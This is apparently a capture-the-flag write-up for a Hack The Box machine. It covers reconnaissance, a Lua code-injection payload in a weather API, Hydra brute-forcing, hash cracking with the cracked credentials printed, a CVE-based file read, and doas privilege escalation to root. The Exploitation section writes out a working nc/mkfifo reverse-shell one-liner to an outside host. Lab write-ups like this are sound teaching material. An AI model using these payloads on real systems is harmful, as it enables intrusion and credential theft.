

# Box 


https://www.hackthebox.eu/home/machines/profile/302

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC --top-ports 1000 -oN scan 10.10.10.218
```


We are going to enumerate the first website on the port 80 :

```bash
gobuster dir -e -u http://10.10.10.218/ -w /usr/share/wordlists/dirb/big.txt
```


The only wile we find is the robots.txt, let's see what's inside : 


Well, it seems we have a /weather page. 

Let's enumerate that new page : 

```bash
gobuster dir -e -u http://10.10.10.218/weather/ -w /usr/share/wordlists/dirb/big.txt
```


We have a new page /forecast :



It seems that we can have some info about cities. Let's try London : 


We got some data.

I've done a POC on my local machine to see If I can inject a new key on the json which I suceeded :

```
fezef\",\"test\":\"<script>window.location = \'http://10.10.14.28:8000\'<script>
```


Now I have to figure out how to inject code.

I've also found a path by triggering an error on the webpage : 


After a  while I found a way to inject code : 


Before working on the exploit, let's take a look at the other website.

We also need to login to see the webpage. The page says "default" so I tried default user & password, at first it didn't work with "admin" and then I tried to bruteforce "user" with hydra and we got a successful login. 


In this website we can see :


The only page which is interesting for us is "processes" :

```bash
r /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 
_httpd       394  0.0  0.0  34956  2020 ?     Is    4:37PM 0:01.86 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3000 -L weather /usr/local/webapi/weather.lua -U _httpd -b /var/www 
root         396  0.0  0.0  21888  1648 ?     Ss    4:37PM 0:00.22 /usr/sbin/cron 
_httpd     21908  0.0  0.0  12616   520 ?     O     1:41PM 0:00.00 /usr/bin/egrep ^USER| \\[system\\] *$| init *$| /usr/sbin/sshd *$| /usr/sbin/syslogd -s *$| /usr/pkg/bin/python3.8 /usr/pkg/bin/supervisord-3.8 *$| /usr/sbin/cron *$| /usr/sbin/powerd *$| /usr/libexec/httpd -u -X -s.*$|^root.* login *$| /usr/libexec/getty Pc ttyE.*$| nginx.*process.*$ 
root         111  0.0  0.0  19780  1588 ttyE1 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE1 
root         389  0.0  0.0  19780  1588 ttyE2 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE2 
root         433  0.0  0.0  19784  1588 ttyE3 Is+   4:37PM 0:00.00 /usr/libexec/getty Pc ttyE3 
```

Here we discover the user "r.michaels"

Let's get back to our previous page.

## Exploitation

I have tried a typical reverse_shell using /dev/tcp and nc but it doesn't work so after I've tried : 

I also used https://meyerweb.com/eric/tools/dencoder/ to encode my strings.

Reverse  shell : 

````bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 1234 >/tmp/f
````

Entire payload : 

```bash
ff');os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 1234 >/tmp/f");--t
```


which works ! 


I have found a password in sha_1 so i'll try to crack it


We found a password encrypted. I used hashcat on another machine to crack it :

````
hashcat --force -m 500 -a 0  -o found.txt --remove  hash.txt rockyou.txt
````

which gave me :

```
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
```

## Post-Exploitation


### User


​	Well, here we can see the user r.michaels launching the same script that our user is launching. It does mean there is a weather on the port 3001.

​														

​											


I've found a CVE that we can use to read the user directory (https://www.cvedetails.com/cve/CVE-2010-2320/)


We know have access to user  ! 

### Root

In the /home folder we can find some interesting files, firstly we can see a backup tar file which is encrypted  :


and we also have a .gnufolder which contains keys that I guess are to decrypt this file : 


It seems that we have netpgp. Let's try to decrypt it :

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output ../.gnupg/file.tar 
```


It seems to be working ! Let's get our files from the tar : 


We can see that we have a new .htpasswd 


We have a new hash to crack. Hashcat cracked it and we now have a new passord `littlebear` for the webapi_user

So now we need to login as root, unfortanely it doesn't work su.


After a bit of research, we find a command that suits us perfectly (https://ftp.netbsd.org/pub/pkgsrc/current/pkgsrc/security/doas/README.html) : 

```bash
doas root /bin/sh
```

